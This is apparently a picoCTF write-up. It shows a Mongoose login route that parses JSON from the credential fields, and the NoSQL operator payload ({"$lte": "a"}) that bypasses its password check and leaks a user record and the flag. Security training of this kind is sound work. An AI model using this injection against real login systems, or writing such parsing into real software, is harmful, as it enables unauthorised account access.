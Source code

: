 There is a code snippet in the source code:

```
    const users = await User.find({
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password
    });
```


For the email I used the default user that is embedded in the source code:

```
    const newUser = new User({
      firstName: "Josh",
      lastName: "Iriya",
      email: "joshiriya355@mumbama.com",
      password: process.env.NEXT_PUBLIC_PASSWORD as string
    });
```


The problem is, we don't know its password. I tried custom crafting JSON objects that could be parsed to bypass the control.

We do know that the program uses Mongoose. I read its and also JavaScript's JSON.parse's documentation:

- https://mongoosejs.com/docs/queries.html
- https://masteringjs.io/tutorials/mongoose/find
- https://mongoosejs.com/docs/api/model.html#Model.find()
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/parse
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON


Then I opened a node shell in my terminal and tried to craft the object. This one succeeded:
```
> JSON.parse("{ \"$lte\": \"a\" }")

{ '$lte': 'a' }
```


I used the email above with `{ \"$lte\": \"a\" }` as the password. It gave me this response:

`[{"_id":"65f08cf30112a251482f8d60","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2EyZTBkOWVmfQ==","__v":0}]`


I suspected that the token is the flag because of this line in user.ts:

  `token: { type: String, required: false ,default: "{{Flag}}"},`


Submitting the token in `picoCTF{}` flag format was not correct, then I tried base64 and found the flag:

`picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_a2e0d9ef}`
